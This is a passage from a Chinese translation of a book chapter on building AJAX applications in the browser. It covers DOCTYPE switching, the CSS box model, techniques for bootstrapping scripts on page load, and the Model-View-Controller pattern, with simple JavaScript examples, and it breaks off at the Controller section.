- XMLHttpRequest 对象（XMLHttpRequest Object），http://en.wikipedia.org/wiki/XMLHttpRequest
- 提高服务器性能（Improved Server Performance），http://AJAXian.com/archives/
- 工厂模式（Factory pattern），http://en.wikipedia.org/wild/
- IFRAME AJAX，http://developer.apple.com/internet/webcontent/iframe.html
- Xpath，http://msdn.microsoft.com/library/default.asp?url=/library/en-us/xmlsdk/html/6da1b6e3-256e-4919-8848-53b425f72ed1.asp 和 http://developer.mozilla.org/en/docs/XPath
- XSLT，http://msdn.microsoft.com/library/default.asp?url=/library/en-us/xmlsdk/html/678bcd68-cbbb-4be5-9dd2-40f94488a1cf.asp 和 http://developer.mozilla.org/en/docs/XSLT
- XML DOM，http://msdn.microsoft.com/library/default.asp?url=/library/en-us/xmlsdk/html/d051f7c5-e882-42e8-a5b6-d1ce67af275c.asp - http://developer.mozilla.org/en/docs/XML

# 第 3 章

## Web 浏览器中的 AJAX

在上一章中，你了解了组成 AJAX“技术栈”的所有核心技术。你还了解了这些 AJAX 组件如何融入 AJAX 应用的架构中。在本章中，我们将探讨在 Web 浏览器中运行 AJAX 应用时的一些常见问题，并使用设计模式以熟悉的方式来阐述 AJAX 架构。

首先，我们讨论跨浏览器开发和遵循 Web 标准所涉及的一些问题。然后，我们展示如何使用几种不同的浏览器相关技术来启动你的 AJAX 代码。在你知道如何引导 JavaScript 代码之后，我们将更仔细地研究如何在 Web 浏览器中实现 `Model-View-Controller` 模式（即 MVC 模式）。你将看到如何从简单的模型（Model）开始存储数据，然后研究如何将数据渲染为视图（View），以及通过控制器（Controller）进行用户交互。这包括进一步探讨 JavaScript 继承，以及如何构建可重用的跨浏览器事件模块——这可能是任何 AJAX 应用最重要的特性。此外，你将学习识别和利用一些基本的软件开发模式，例如 `Observer` 模式。

为了构建本章所阐述的理念，我们创建了一个示例 AJAX 应用，用于管理客户和订单信息。到本章结束时，你应该具备构建遵循 MVC 原则的简单 AJAX 应用的技能。尽管遵循 MVC 模式并不简单，但按照 MVC 设计软件所付出的努力，在测试代码时将会得到回报——而当你经过充分测试的代码能够在未来被复用时，回报将更加丰厚。

## 基于组件的 AJAX

AJAX 应用的典型例子包括地图应用 Google Maps 和流行的照片分享网站 Flickr。虽然这两个例子都是卓越的应用，但它们对普通商业用户来说却未必是熟悉的领域。尽管如今关于 AJAX 的大量炒作都集中在面向消费者的应用上，但 AJAX 的真正使命可能在于增强企业内部使用的关键业务线应用的功能和用户体验。

在企业中，客户关系管理（CRM）、企业资源规划（ERP）和商业智能（BI）只是日常使用的应用类型中的一小部分，这些应用往往具有缓慢且不直观的用户界面。然而，这并非必然如此。贯穿所有这些业务应用的一个共同点是，它们都是由各种基本的用户界面组件构建而成。这些基本的用户界面组件包括用于查看大量记录的数据表、用于编辑数据的 Web 表单、用于可视化数据的图表，以及数据搜索或过滤功能。所有这些用户界面方面都可以被视为应用的模块，可以在更大的 Web 应用框架（如 JSF 或 ASP.NET）中独立使用。其中一个核心组件的例子是 ASP.NET DataGrid 控件，可用于查看和编辑表格数据；这些数据可以是任何东西，从客户记录到支持事件再到产品销售信息。

围绕搜索、列表和编辑数据这些常见的业务用例，我们奠定了构建基于 AJAX 的组件的基础，这些组件可以作为更大 Web 应用架构中的模块使用。

虽然 ASP.NET DataGrid 控件严重依赖于服务器端 .NET 框架提供的所有基础架构，并且完全无法使用，但基于 AJAX 的组件可以与服务器无关，仅依赖于 Web 浏览器中可用的技术。AJAX 应用或组件中的数据，如果以预期的数据格式提供，可以从任何类型的服务器提供，无论它运行的是 PHP、Java 还是 Ruby on Rails。同样，构建和使用 AJAX 组件并不意味着你必须抛弃当前的 Web 应用架构、开发工具、技术和方法论。另一方面，选择“单页”方式的 AJAX——即 Web 页面永不刷新，而是完全依赖 XHR 请求访问服务器上的数据——可能需要大量工作才能将现有应用转换为使用 AJAX。

如果应用从头开始重建，单页 AJAX 方式可能是明智的选择；但是，如果你希望尽可能保留当前的 Web 应用，那么基于组件的方式可能更有优势，因为它非常适合逐步向应用中引入 AJAX 功能。

## Incremental AJAX

如今，许多 Web 应用已经在开发过程中使用预构建组件，无论是通过 .NET Web Controls 还是 JavaServer Faces。即使只是让当前 Web 应用中使用的部分组件采用 AJAX 技术，也可以改善用户界面并提高最终用户的满意度。

组件方式允许开发人员逐步更改应用，并仅在有益时引入 AJAX 功能。应用的小部分可以使用 AJAX 进行增强，而应用的大部分仍保留在原有技术中。要迁移到完全基于 AJAX 的架构，需要仔细规划并重新思考服务器的角色，因为迁移到基于 AJAX 的组件式用户界面的主要挑战，是从以服务器端编程为主，转变为以客户端编程为主，即使用 JavaScript、DHTML 和 CSS 进行编程。

话虽如此，AJAX 组件的客户端功能可以轻松封装在服务器端代码中，无论是手动完成，还是使用少数几种基于服务器的 AJAX 解决方案中的任意一种。例如，可以构建一个经过 AJAX 增强的 JSF 树控件，从而利用 Java 程序员现有的知识，进一步简化服务器集成。

## Impact on the Server

当我们开始研究基于 AJAX 的应用时，服务器的角色会发生显著变化。传统上，服务器负责渲染视图（View）并将其传输到客户端，同时还负责响应客户端发生的事件——第二点最为重要。

使用 AJAX 时，服务器仍然负责渲染视图（View）的某些部分，例如用于包含适当 JavaScript 库的 `<script>` 元素，以及任何自定义 HTML 标签，例如 `<DOJO:button/>`，以便由 Dojo 框架在客户端渲染按钮。

需要认识到的重要一点是，客户端发生的任何事件，都不再需要触发 HTTP 请求，让服务器生成新的视图（View）并将其传输到客户端。使用 AJAX 组件时，客户端发生的事件（例如选中列表框中的项目）不需要刷新整个页面，而是可以直接更新 Web 页面上的其他组件，或在后台向服务器请求附加数据。

如果从 MVC 的角度理解这一点，你会发现 MVC 模式的三个部分都可以存在于 Web 页面本身，而不必跨越网络，从客户端一直延伸到服务器。这些变化可以显著减少服务器负载，并帮助你以更加模块化的方式设计服务器架构，使其能够适应未来的任何 RIA。

AJAX 使得创建具有真正价值的完整 Web 应用和应用中的小型组件成为可能，而不仅仅是展示酷炫的技术——尽管即使是最守旧的企业，也有大量机会引入创新理念。下面我们将从 HTML 文档本身开始，了解如何构建基于组件的 AJAX 应用。

## HTML Standards


# AJAX与Web标准

AJAX与标准有很大关系。大多数相关技术都受到W3C支持，许多开发者也很欣赏它们属于基于标准的技术。这是专有技术（如Adobe Flash）在AJAX开发者中的受欢迎程度不及其可能应有水平的重要原因。

然而，鉴于当前以及近期的Web浏览器格局，在基于标准的环境中工作仍然可能颇具挑战。通常，当我们谈论标准遵循问题时，指的是Internet Explorer。Internet Explorer的许多部分都基于微软在尚不存在适用Web标准之前定义的专有接口。

Internet Explorer的DOM事件和CSS样式实现不同于W3C标准，可能会带来一些麻烦。我们已经发现了一些微软前瞻性设计产生事实标准（`innerHTML`）的领域，甚至有些技术后来被W3C采纳（XHR）。下面来看看不同Web浏览器对W3C HTML标准支持的一些重要差异。

## 文档类型定义

任何Web开发者在组装网页时，首先要做的事情之一就是选择文档类型定义，简称DOCTYPE。

在网页中指定DOCTYPE的第一个好处，是可以使用W3C提供的验证服务（`http://validator.w3.org`）验证页面内容，确保其符合指定标准，并且不存在格式错误的标记。这类问题在AJAX和动态DOM操作中可能会成为棘手的错误。

开发者经常忽略验证，但验证可以帮助改进网页，是一种良好的实践。生成有效的HTML或XHTML还可能带来其他附带优势，例如改进搜索引擎优化（至少可以确保存在`<title>`标签）、加快HTML解析速度，以及改善跨浏览器性能。它还有助于提升可访问性（但并非绝对如此，详见第10章“风险与最佳实践”）。

指定DOCTYPE最重要的影响，是告诉Web浏览器如何解释和解析HTML内容。根据DOCTYPE的不同，CSS的解释方式和HTML的渲染方式也会不同。尽管这通常是在讨论Internet Explorer时提到的，但大多数Web浏览器都支持两种运行模式：怪异模式和标准模式。

事实上，大多数浏览器甚至还支持第三种几乎标准模式（可以认为这就是Internet Explorer中大多数人所称的标准模式）。不过，我们不必过多关注它，因为这种模式与普通标准模式之间的差异很少，也很少被注意到。

为了确定使用哪种运行模式，Web浏览器支持DOCTYPE切换。也就是说，浏览器会根据网页中的DOCTYPE声明，改变解释和渲染HTML及CSS内容的方式。

例如，如果网页中没有指定DOCTYPE，所有Web浏览器都会以怪异模式运行。这里列出了需要关注的六种主要DOCTYPE：

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
"http://www.w3.org/TR/html4/strict.dtd">
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Frameset//EN"
"http://www.w3.org/TR/html4/frameset.dtd">
```

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
```

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Frameset//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-frameset.dtd">
```

前面列出的前三种分别是HTML 4.01的严格型、过渡型和框架集版本，后三种则是XHTML 1.0对应的版本。

将网页作为XHTML提供时，构建网页还需要考虑一些额外事项。使用XHTML而不是HTML时，主要需要注意以下几点：

- 服务器应使用`application/xhtml+xml`这一MIME类型提供网页，而不是`text/html`。
- 网页的根`<html>`元素应指定XHTML命名空间，例如：

```html
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en"
lang="en">
```

相较于HTML 4.01，XHTML 1.0对标记提出的其他主要要求见表3.1。

## HTML 4.01与XHTML 1.0特性对比

| 特性 | HTML 4.01 | XHTML 1.0 |
|---|---|---|
| 文档应符合格式良好的XML要求。 | `<p>Customers<br> Customers</p>` | `<p>Customers</p><br />` |
| 属性名应使用小写，并放在引号中。 | `<div ID=header> Customers</div>` | `<div id="header"> Customers</div>` |
| 脚本应符合格式良好的XML要求，最简单的方式是使用CDATA节。 | `<script TYPE=text/ javascript> …</script>` | `<script type="text/ javascript"> <![CDATA[…]]></script>` |

尽管许多开发者被“规范的”基于XML的HTML标签所吸引，但往往只会遇到各种问题。需要指出的主要问题是，根据规范，XHTML内容应当使用`application/xhtml+xml`这一MIME类型来交付。

问题在于Internet Explorer尚无法识别这一MIME类型。Internet Explorer 7有一项改进：在DOCTYPE声明之前放置XML序言（`<?xml version="1.0" encoding="UTF-8" ?>`）不再像Internet Explorer 6那样导致浏览器退回到怪异模式。

通过指定XML序言，我们可以让Internet Explorer 7认为内容是XHTML而非单纯的HTML。这是微软在全面支持XHTML道路上的重要一步。XHTML文档确实提供了一些优势，例如可以更直接地包含其他基于XML的语言（通过命名空间），如SVG，而且无效的XML会在Web浏览器中抛出错误。

使用XHTML仍然有些过于乐观，只有在Internet Explorer采纳`application/xhtml+xml`这一MIME类型后才能成为现实。

对于大多数浏览器，除了Konquerer等少数几个之外，前面列出的所有HTML和XHTML DOCTYPE定义都可以将浏览器切换到几乎标准模式或纯标准模式，这两种模式在大多数情况下是相同的。

“严格型”DOCTYPE会使Firefox、Opera和Safari等浏览器进入标准模式，而Internet Explorer则进入所谓的几乎标准模式；“过渡型”DOCTYPE则会使大多数其他浏览器进入几乎标准模式。²

## 盒模型

尽管关于DOCTYPE和XHTML的讨论看似合理，我们还是直奔主题。对于大多数浏览器（如Firefox）而言，怪异模式与标准模式相比几乎没有差异。

Internet Explorer在这方面表现不佳，而这正是DOCTYPE切换问题的核心所在。在Internet Explorer中，怪异模式与标准模式之间存在一个主要区别，那就是CSS盒模型。

CSS盒模型涉及HTML元素的尺寸代表什么。在W3C标准中，HTML元素的宽度和高度对应于该元素**内容**的宽度和高度。这是所有浏览器在怪异模式和标准模式下都会采用的方式，Internet Explorer除外。

另一方面，传统模型（见图3.1）仍然被Internet Explorer在怪异模式中使用。在这种模型中，HTML元素的宽度和高度对应于元素外部的宽度和高度。元素外部包括元素的内边距和边框。

根据不同的情况，这两种观点都可能有用。在某些情况下，你可能希望将元素与其他元素对齐——这时W3C模型很有用；而在其他情况下，你可能希望将元素并排对齐——这时外部尺寸就很重要，传统模式更有道理。



关键在于，如果你想减少由AJAX引起的盒模型头痛问题，就需要制定应对盒模型问题的策略。基本上有两个选项：

- 通过指定前面列出的某一DOCTYPE，在Internet Explorer中使用标准模式，这样网页就会像所有其他浏览器一样使用W3C盒模型。
- 在Internet Explorer中使用怪异模式，不设置DOCTYPE，并强制其他浏览器使用`box-sizing` CSS规则来应用传统盒模型。

CSS3规范定义了一个名为`box-sizing`的规则，它可以取两个值：`border-box`和`content-box`，分别对应于传统模型和W3C模型。

目前，Opera和Firefox都支持这一规则，因此允许根据具体情况选择盒模型。在Firefox中，该属性的语法略有不同，需要在规则前添加`-moz-`前缀。它还支持一个`-moz-box-sizing:padding-box`值，其含义不言而喻。

盒模型是怪异模式和标准模式操作之间最重要的区别。现在你已经了解了DOCTYPE的影响，让我们来看看如何在浏览器中启动你的AJAX代码。

## 引导AJAX组件

AJAX组件生命周期在Web页面首次加载时就开始了。这时你需要某种方法来初始化你的AJAX组件。

与.NET Forms或Java应用程序相比，引导AJAX应用程序要稍微困难一些。在实例化应用程序时，你必须熟悉一些不同的细微差别。

你需要考虑的最重要的一点是，任何内联JavaScript，即未包含在函数内部的任何JavaScript，都会在脚本引擎发现它时立即执行。

这意味着JavaScript可能在Web页面的其他部分（JavaScript代码可能引用的部分）加载之前就已执行。例如，如果Web页面开头的一些内联JavaScript尝试使用`$(elementId)`方法访问某个HTML元素，它很可能返回`null`。

这不是因为具有该ID的元素不存在，而是因为Web页面的HTML内容尚未渲染（还没来得及被浏览器加载和解析）。

有几种不同的方式来实例化你的AJAX应用程序，可以确保应用程序可能需要的所有资源都已加载和解析。最常见的方式是使用`window`或`<body onload>`事件。

### `onload`事件

浏览器`window`对象的`onload`事件对于许多用过JavaScript的人来说应该很熟悉。不过，为了那些没有见过的人，也为了给其他人做一个总体的回顾，让我们来看一下这个简要的复习。

`onload`事件是全局`window`对象的一个成员，它允许你指定一个JavaScript函数，在包括HTML标签、图像和脚本在内的整个页面下载到浏览器之后执行。

与大多数事件不同，`window.onload`事件的事件处理程序可以通过JavaScript进行显式附加，也可以在HTML内容中显式指定。由于这个事件是在HTML DOM加载和解析完成后触发的，我们无法使用DOM事件系统来附加该事件。

通过JavaScript指定`onload`事件的语法如下所示：

```javascript
window.onload = init;
```


这里，`entAJAX.init`是一个JavaScript函数引用，可以在页面加载后执行。使用这种方法来启动你的AJAX应用程序有两个缺点。

第一个缺点是通过设置`window.onload`事件，你可能会覆盖页面其他组件已定义的事件。这种无意中覆盖其他人已定义的事件或对象的问题，在JavaScript混搭（将两个在线应用程序如地图和照片合并以创建新应用程序）日益受到重视的情况下越来越重要。

要使用`window.onload`来引导多个AJAX组件，你需要创建一个单一的代理JavaScript函数，在其中对你页面上的所有AJAX组件进行引导。通常一个名为`init()`的函数用于此目的，如下所示，我们将处理程序附加到`onload`事件，不过目前我们还做不了太多事情。

```html
<html>
  <head>
    <script type="text/javascript">
function init() {
  alert($("myComponent").innerHTML);
}
// Set the onload event function reference to our Init function
window.onload = init;
    </script>
  </head>
  <body>
```

² http://hsivonen.iki.fi/doctype

```html
<div id="myComponent">我的第一个组件放在这里。</div>
</body>
</html>
```

`onload`事件的第二个缺点是，你的AJAX组件只有在*整个*页面下载完成后才会加载。这意味着浏览器必须等待所有资源（包括外部链接的图片、CSS和JavaScript）都下载到客户端。

如果页面下载过程中出现错误，或者用户通过点击浏览器的停止按钮放弃下载，就有可能出现问题。使用`onload`方法，你的AJAX组件可能会花费很长时间才能激活，或者在最坏的情况下，可能根本无法启动。

### 做个好邻居

如果你的JavaScript运行在一个同时运行其他组件或JavaScript框架的网页上，你需要小心处理文档事件，确保和谐共处。

因为几乎所有JavaScript都依赖`onload`事件来启动引导过程，盲目覆盖`window.onload`事件可能是个坏主意，因为它可能已经被其他JavaScript代码使用了。当两个人为同一个网页开发不同的代码或组件时，这种情况最常发生。

下面是一个简单的网页示例，包含两个可能来自不同作者的JavaScript文件，每个文件都旨在实例化网页上的不同组件，例如客户列表和产品列表。

```html
<html>
  <head>
    <script type="text/javascript" src="customers.js">
    <script type="text/javascript" src="products.js">
  </head>
  <body>
    <div id="customerList">客户的HTML元素。</div>
    <div id="productList">产品的HTML元素。</div>
  </body>
</html>
```

第一个包含文件（`customers.js`）可能看起来像这样：

```javascript
var example1 = {};
example1.init = function() {
  alert($("myCustomers").innerHTML);
}
window.onload = example1.init;
```

第二个JavaScript包含文件，在本示例中，看起来几乎一模一样，但它引用的是另一个HTML元素。

```javascript
var example2 = {};
example2.init = function() {
  alert($("myProducts").innerHTML);
}
window.onload = example2.init;
```

像优秀的程序员一样，在这个例子中，我们将每个初始化函数放在了自己的命名空间中；否则，我们会面临函数被覆盖的更大问题。

现在，我们面临的问题是第二个包含的JavaScript文件完全覆盖了`window.onload`事件，这意味着第一个初始化函数永远不会被调用。最佳实践始终是以非破坏性的方式将方法分配给公共事件处理程序。

非破坏性事件处理程序分配，或一般的函数分配，可以通过复制旧函数并创建一个新的匿名函数来实现，该匿名函数封装了新旧函数。例如，两个包含文件都应该像这样将其事件处理程序附加到`window.onload`事件：

```javascript
var example2 = {};
example2.init = function() {
  alert($("myProducts").innerHTML);
}
// 存储任何先前定义的onload事件处理程序
var oldLoader = window.onload || function() {};
// 创建闭包调用example2.init和先前定义的方法
```

```javascript
window.onload = function() {
  example2.init();
  oldLoader.call(this);
}
```

我们所做的就是将旧`onload`处理程序的引用保存在`oldLoader`变量中，然后将`window.onload`事件设置为一个匿名函数，该函数既调用我们新的`onload`处理程序`LoadMyComponent`，也调用旧的`onload`事件处理程序。

这样之所以能工作，完全归功于JavaScript闭包的魔力，当然，前提是这段代码在全局作用域中运行，并且`oldLoader`是一个全局变量。无论哪种方式，`oldLoader`变量虽然定义在匿名函数外部，但在页面加载完成后执行匿名函数时仍然可以访问。

### 混合内容与功能

这几乎结束了我们对`onload`事件的讨论。然而，为了完整起见，我们可能需要提到有一种使用`onload`事件的方法应该避免。

与任何其他HTML事件一样，`onload`事件可以在HTML `<body>`元素上指定为属性，如下所示：

```html
<body onload="example1.init();">
```

注意，与通过JavaScript附加事件处理程序不同，我们实际上编写了一个对处理程序函数的正确调用，带有末尾的括号——当直接在HTML元素上指定事件时，属性的内容应该是有效的JavaScript代码，由网页进行评估。

虽然这很诱人，但通常不被推崇，因为它不仅模糊了网页表现层和功能层之间的界限，而且`<body>`元素上的`onload`事件还会覆盖`window`对象上指定的任何其他`onload`事件，使其变得困难（已暂停）

## 浏览器技巧

`onload`事件是引导AJAX应用程序以及通常的客户端JavaScript的标准、常规方式。正如我们已经提到的，如果有大图片等需要网页下载，`onload`事件可能需要很长时间才能触发。

如果你想让应用程序加载得稍微快一些，并为最终用户提供相应的改进体验，那么在引导AJAX应用程序时，你实际想实现的是让应用程序尽快加载，以便最终用户花费尽可能少的等待时间。

当然，这里的问题是，AJAX组件可能依赖于网页DOM或HTML元素可访问（即，已被网页浏览器加载和解析）才能加载。如果这些依赖的HTML元素在AJAX组件初始化时尚未被解析，那么你可能会遇到问题。

这意味着你必须利用一些浏览器技巧，让你的JavaScript在DOM加载并解析后立即运行，但在其他外部资源（如图片）加载之前运行。这为你的最终用户节省了时间，并改善了整个用户体验。

幸运的是，有几种众所周知的方法可以用来消除应用程序中的这些问题。

### 脚本放置

让你的脚本更早运行的最简单但最脆弱的方法是将实际的`<script>`元素放在网页中AJAX程序初始化所需的所有HTML元素之后。

虽然这是一个简单且完全跨浏览器兼容的解决方案，但由于其明显依赖于`<script>`元素的精确定位（这与网页的显示无关），并且被视为MVC视图的HTML的一部分，大多数人都对此嗤之以鼻。

例如，下面是一个完全可接受的内联JavaScript，因为JavaScript对HTML DOM的引用在它所引用的HTML元素之后内联放置。

```html
<html>
  <head></head>
  <body>
```

```html
<!--此HTML元素可被下面的脚本访问，而不是上面的-->
  <div id="CustomerName">John Doe</div>

  <script>
var customer = $("CustomerName");
// 这只是好的内联JavaScript
customer.style.color = "blue";
  </script>
 </body>
</html>
```

## DOMContentLoaded

基于Mozilla的浏览器提供了一个方便的、大部分未文档化的事件，称为`DOMContentLoaded`。`DOMContentLoaded`事件允许你在DOM加载之后、所有其他非DOM内容加载完成之前引导你的AJAX组件。

使用`DOMContentLoaded`事件与其他任何事件类似，注册方式如下：

```javascript
if (entAJAX.FF) {
  document.addEventListener('DOMContentLoaded', Example.init,
false);
}
```

这是提供更快一点应用程序的简单方法。当然，请记住这*仅*适用于基于Mozilla的浏览器，对于其他浏览器需要找到另一个解决方案。

## 延迟脚本

正如可能预期的那样，Internet Explorer要求我们找到不同的方法来实现相同的结果。Internet Explorer支持一些专有功能来帮助我们确保脚本在我们需要它们的时候加载。

第一个是可以在`<script>`元素上使用的`DEFER`属性。当一个`<script>`元素带有`DEFER`属性时，Internet Explorer会延迟运行由该`<script>`引用或包含的JavaScript元素，直到整个网页DOM被解析并加载完毕。

本质上，`DEFER`属性完全类似于将`<script>`元素放置在文档末尾。有一个问题需要注意，`DEFER`属性当然会被非IE浏览器忽略，这意味着你的代码会在页面仍在加载时立即执行。

幸运的是，你可以在Internet Explorer中使用另一个技巧来解决这个问题。Internet Explorer支持条件注释，允许你根据某些条件有条件地取消注释HTML内容。

下面是一个条件注释的示例，它在网页浏览器是Internet Explorer时包含某个JavaScript文件：

```html
<!--[if IE]><script defer src="ie_onload.js"></script><![endif]-->
```

对于任何非Internet Explorer浏览器，前面的HTML代码将被简单注释掉，因此不会加载和运行；然而，在Internet Explorer中，条件注释将被识别并评估为`true`。

这个条件评估为`true`的结果是，注释的内容实际上会随着DOM一起加载，并且带有`DEFER`属性的`<script>`元素会延迟处理。

这里另一个选择是使用条件编译，它本质上允许代码对除Internet Explorer以外的所有浏览器不可见。

```html
<html>
  <head>
    <script type="text/javascript">
/*@cc_on @*/
/*@
  alert("You are running Internet Explorer");
@*/
    </script>
  </head>
  <body>…</body>
</html>
```

如果在Internet Explorer中运行，此脚本会显示警告。`@cc_on`语句启用条件编译，`/*@`表示条件脚本块的开始，`@*/`表示条件编译脚本块的结束。

## 奇怪的结果

为了确保我们涵盖所有方面，许多人尝试的另一种方法是在Internet Explorer中使用`document.onreadystatechange`事件。遗憾的是，事实证明这种行为相当不可靠，有时有效，有时则不然；因此，我们建议人们避免使用此事件。

相反，为了确保DOM在任何浏览器中都已加载，你可以使用`setTimeout()`进行代码循环，通过`$()`检查某个DOM元素是否可用。

```html
<html>
  <head>
    <script type="text/javascript">
function domReady(nodeId) {
  // start or increment the counter
  this.n = typeof(this.n) == 'undefined' ? 0 : this.n + 1;
  var maxWait = 60;

  if (typeof($) != null && $(nodeId) != "undefined") {
    alert("The DOM is ready!");
  } else if (this.n < maxWait) {
    setTimeout(function(){domReady(nodeId)}, 50);
  }
};
domReady("loadingDiv");
    </script>
  </head>
  <body>
    <div>Contents</div>
    …
    <div id="loadingDiv" style="display:none;"></div>
  </body>
</html>
```

这无疑是判断DOM何时就绪的最直接方法。唯一的技巧是它必须知道需要加载的DOM节点，而无法考虑JavaScript组件与其他HTML元素之间深层嵌套的依赖关系。

一个确保快速加载JavaScript的可靠方法是将一个已知的HTML元素放置在结束的`</body>`标签正前方。

既然我们已经讨论了启动AJAX应用所涉及的一些问题，接下来让我们继续探讨如何在AJAX应用中利用纯粹客户端的模型-视图-控制器模式。

## 模型—视图—控制器

现在，我们专注于MVC模式，将其作为构建AJAX组件和应用的指导方针。MVC模式通常在客户端和服务器端的上下文中使用，其中视图在客户端实现，而控制器和模型肯定封装在服务器端。

然而，当我们开始处理基于AJAX的应用时，MVC模式的三个方面的大部分可以在客户端实现，除了在大多数情况下模型的持久化。



图3.2是一个基于MVC架构的简单示例。实线可以被认为是显式编码的方法调用，而虚线是对假设实现特定抽象模型、视图或控制器接口的对象的方法调用。

这里需要注意的重要一点是，控制器通常与模型和视图都有显式的连接。控制器将能够访问可以在模型或视图上调用的特定方法；同样，视图通常会调用模型的方法。

另一方面，视图和模型理想情况下应分别与控制器或视图没有连接。当然，这是对MVC的理想看法，我们在应用时会相当灵活。

我们也可以从事件序列的角度来看待MVC。用户输入通常由视图接收，然后视图通知控制器处理事件，控制器随后可能会查询模型，并用一些新信息更新视图，如图3.3所述。



**图3.3** 模型-视图-控制器序列图，说明了MVC模式不同方面之间的交互

考虑到这一点，让我们看看MVC的各个方面。

### 视图

自互联网诞生以来，网络浏览器一直是MVC视图的传统领地，因此我们从那里开始探讨AJAX MVC。

视图负责通过使用HTML DOM和CSS来显示我们AJAX组件的用户界面，并为允许用户与应用程序交互的连接奠定基础。

你可以将视图视为自动柜员机或现金机（ATM）；通过ATM应有的简单界面，你可以与它背后的银行——一个庞大且通常高度复杂的实体——进行交互。

通过ATM界面，你可以对你的银行账户执行各种操作，例如查询余额、存款和取款。所有这些都是复杂而繁琐的过程，却以一种本应易于理解的方式呈现给用户。

如果你更仔细地观察MVC架构，视图通常负责几个特定任务，例如：

- 渲染模型
- 向模型请求更新
- 将用户手势发送给控制器
- 允许控制器选择视图

当AJAX组件在你的应用程序中最初渲染时，视图负责将模型中的数据呈现给用户。

实际渲染模型中的数据过程需要将数据与某种基于HTML的模板合并，以使数据以用户友好的方式格式化。通过几种不同的方式可以实现生成带有HTML格式的合并数据。

创建视图最简单的方法是连接一串数据和HTML标记，然后通过使用某个HTML元素的`innerHTML`属性将其插入网页中。

```html
<html>
  <head>
    <script type="text/javascript">
var example = {};
example.init = function() {
  var s = []; // equivalent to "new Array()";
  var customers = ["Jim", "Bob", "Mike"];
  for (var i=0; i<customers.length; i++) {
    s.push("<div class=\"customer\">"+customers[i]+ "</div>");
  }
  $("customerList").innerHTML = s.join("");
}
window.onload = example.init;
    </script>
  </head>
  <body>
    <div id="customerList"></div>
  </body>
</html>
```


这是在客户端构建 AJAX 应用程序 HTML 最常见和直接的机制。或者，HTML 也可以在客户端使用各种模板技术生成，例如纯 JavaScript、JavaScript 和 DOM 操作或使用可扩展样式表语言模板（XSLT）——尽管 XSLT 目前仅在 Safari 的最新版本（构建版本 15836）中可用，该版本要到下一个版本的 OS X 发布后才会广泛使用。另一个选择是在服务器上生成 HTML，并将视图 HTML 片段而不是模型数据发送到客户端，这当然减少了传统 Web 应用程序和 AJAX 应用程序之间的差异；然而，在服务器上渲染视图并通过网络传递 HTML 片段可能会显著阻碍 AJAX 提供的任何优势。我们将在本书中探讨许多生成视图的不同方法。

视图渲染完成后，无论我们选择哪种方法，视图也可以显式地向模型请求更新。在 AJAX 应用程序中，这些更新可能频繁发生，从而确保视图中呈现给最终用户的数据始终有效且相关。视图中的这种最新信息在传统应用程序中几乎闻所未闻，并为最终用户提供了显著的价值。当客户端需要模型中的数据时，它可以从客户端预加载的模型中请求数据，或者可能需要使用 `XMLHttpRequest` 对象从服务器请求数据。无论哪种情况，模型都应该被抽象到这样的程度：在为 AJAX 应用程序编写客户端 JavaScript 代码时，数据是在服务器端还是客户端并不重要。

向模型请求更新可能作为应用程序固有部分发生——例如在应用程序最初加载时——或者作为应用程序生命周期中用户手势的结果。用户的手势由视图捕获，然后通过 DOM 事件将视图连接到 MVC 架构的控制器。

视图与控制器之间的连接无疑是 MVC 模式的重要环节。明智的做法是尽可能通用地建立视图与控制器之间的连接，因为这有助于高效地分割用户界面与应用逻辑的工作。此外，通过通用方式将视图连接到控制器，你可以更有信心地修改控制器，而不用担心会破坏应用。甚至可以替换为一个全新的控制器，而应用设计无需大改。确定 MVC 架构各组件间的这些接口至关重要，因为它提高了代码复用性，并使架构中任何组件的更改更少出错且更容易。

当然，在讨论 MVC 架构的高效分离时，另一个需要记住的重要方面是我们将在测试中获得的好处。通过松耦合各个关注点，测试变得更加容易，并在修改应用时让我们高枕无忧。我们稍后会讨论这些优势，例如测试。

最后，视图必须提供一个接口，允许控制器选择或激活某个特定视图。这一点非常重要，因为在许多情况下，控制器必须对用户的手势（例如点击按钮）采取行动，这会导致创建新视图或使现有可见视图变为活动状态。这类接口是视图与控制器交互所必需的。

### 控制器

